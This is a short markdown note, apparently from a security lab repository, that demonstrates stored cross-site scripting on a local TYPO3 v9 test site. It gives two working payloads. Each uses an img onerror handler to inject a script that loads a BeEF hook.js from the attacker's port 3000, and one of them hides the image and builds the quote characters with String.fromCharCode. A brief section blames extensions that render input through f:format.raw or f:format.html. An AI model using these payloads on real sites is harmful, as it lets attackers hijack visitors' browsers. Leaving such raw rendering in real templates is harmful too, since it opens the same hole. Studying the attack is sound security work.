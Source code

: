 # Just BeEF

## Attack

http://typo3v9-hack.ddev.site/index.php?id=84

* the payload of BeEF to be executed

```
http://typo3v9-hack.ddev.site:3000/hook.js
```

* 1st attempt

```
Great!<img src="great" onerror="quot=String.fromCharCode(34);document.write('<script src='+quot+'http://typo3v9-hack.ddev.site:3000/hook.js'+quot+'></script>')">
```

* 2nd attempts

```
Great!<img src="great" style="display:none" onerror="script=document.createElement('script');script.src= 'http://typo3v9-hack.ddev.site:3000/hook.js';document.body.append(script);">
```

## Security Vulnerability

This attack relies on some insecure extension implementation that either using `<f:format.raw>` or
`<f:format.html>` in order to make use of insecure markup.